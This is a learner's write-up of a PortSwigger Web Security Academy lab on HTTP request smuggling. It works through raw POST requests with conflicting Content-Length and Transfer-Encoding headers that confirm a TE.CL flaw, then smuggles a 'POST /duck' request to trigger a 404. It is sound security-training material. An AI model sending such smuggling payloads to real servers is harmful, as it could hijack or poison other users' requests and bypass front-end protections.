

# [HTTP request smuggling, confirming a TE.CL vulnerability via differential responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)

> the goal is to make the server response with a `404`

- open the lab in burp browser
- send the `/` request tot eh repeater
- change the request to `HTTP/1.1`
- send it again to check if it is still working
- should return with `200`

## recon

- check with the following request:

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

3
abc
X
```

- delete the rest of the headers (to make it easy to read)
- every new line is two character `\r\n`
- so the `abc` looks like -> `abc\r\n` -> 5 characters
- the content length for this request is **9** but we set it **6**

```
3\r\n
abc\r\n
X\r\n
```

- **3,\r,\n,a,b,c** -> 6 character, it chops of the **x,\r,\n**
- but this do not have any affect because the frontend does not look at the `Content-Length`
- the frontend server checks `Transfer-Encoding: chunked`, and it sees that the content is not correct, instead of the **X** there should be a hexadecimal number, or the chunks should be closed by:

```
0\r\n
\r\n
```

- lets try one with a correctly chunked content

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 6
Transfer-Encoding: chunked

0

X
```

- this time it times out
- the frontend sees the chunk ending **0** and do not sends the **X**, but the backend waits for a **6** length content but it is only **5**
- this is a TE.CL exploit

## exploit

- send two requests

> first request:

```
POST / HTTP/1.1
Host: xxx.web-security-academy.net
Content-Length: 4
Transfer-Encoding: chunked

8b
POST /duck HTTP/1.1
Host: xxx.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 11

x=1
0

```

- the frontend `Transfer-Encoding` will let the request trough as it is
- the backend will chop it off after the `8b\r\n` and the rest `POST /duck ...` will linger and append to the next request
- it probably not `8b` for you, it is the hexadecimal value of the chunk under it

```
POST /duck HTTP/1.1
Host: xxx.web-security-academy.net
Transfer-Encoding: chunked
Content-Length: 11

x=1
```

- you have to check its value per lab

> second request is just the default `/` request

- the previous request chopped off `POST /duck ...` part will append to it and the `Content-Length: 11` will keep this actual request first 1 byte
- this should give back the `404` what will solve tha lab


